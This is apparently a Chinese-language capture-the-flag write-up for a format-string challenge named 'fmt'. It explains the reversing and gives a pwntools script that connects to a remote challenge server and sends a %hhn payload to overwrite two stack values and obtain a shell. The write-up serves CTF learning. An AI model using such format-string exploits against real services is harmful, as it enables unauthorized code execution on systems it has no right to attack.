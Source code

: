 # fmt

## 文件分析

保护全开  
ghidra分析为64位程序

## 逆向

这题是要将栈上的2个int值修改成特定数字就给shell，作者已将地址放在栈上，
gdb动调格式化字符串的参数，发现这2个地址均可访问到，那么直接使用%n将数字写入即可

（我看作者还在buf上放了地址的后8位，估计我这个是非预期解吧）

## EXPLOIT

```python
from pwn import *
def payload(lo):
    global sh
    if lo:
        sh = process('./fmt')
    else:
        sh = remote('43.249.195.138', 22188)
    if lo & 0b10:
        gdb.attach(sh)

    # 第8个参数和第9个参数刚好是那2个地址，分别写入0x12和0x34即可
    # 给新手一个提醒，在同一条printf语句中，%n统计的是累计打印出的字符数
    # %hhn是将地址视为byte *向其中写入数字
    sh.sendline(b'%18d%8$hhn%34d%9$hhn')
    sh.interactive()

payload(0)
```

Done.
